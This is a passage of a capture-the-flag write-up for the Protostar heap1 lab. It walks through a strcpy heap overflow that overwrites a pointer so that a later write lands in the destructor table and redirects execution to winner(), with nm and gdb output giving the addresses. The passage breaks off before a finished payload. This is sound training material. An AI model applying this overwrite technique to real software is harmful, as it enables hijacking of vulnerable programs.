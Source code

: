 ```c

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```

The vulnerability:

```c
  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);
```

As we can overflow the i2->name address with the first strcpy call, we can change the write address.

Overwriting the destructor functions seems like the easiest choice.

```
root@kali:~/Desktop/pentest/protostar/heap# nm ./heap1 | grep DTOR
08049674 D __DTOR_END__
08049670 d __DTOR_LIST__
```

We will overwrite `0x08049674`, the first function pointer in the destructor array, with the address of winner.

```
gdb-peda$ p winner
$1 = {void (void)} 0x8048494 <winner>
```

The addresses of i1->name content and i2->name address is needed to know the offsets.

Strcpy call for i1->name:

```
   0x8048531 <main+120>:	mov    DWORD PTR [esp+0x4],edx
   0x8048535 <main+124>:	mov    DWORD PTR [esp],eax
=> 0x8048538 <main+127>:	call   0x804838c <strcpy@plt>
```

eax contains `0x804a018` so thats the address of i1->name.

Malloc call for i2->name:

```
   0x080484f1 <+56>:	mov    DWORD PTR [esp],0x8
   0x080484f8 <+63>:	call   0x80483bc <malloc@plt>
   0x08048517 <+94>:	mov    edx,eax
   0x08048519 <+96>:	mov    eax,DWORD PTR [esp+0x18]
=> 0x0804851d <+100>:	mov    DWORD PTR [eax+0x4],edx <-- i2->name = location of allocation.


```

edx contains `0x804a02c` ie the
i2->name pointer location.
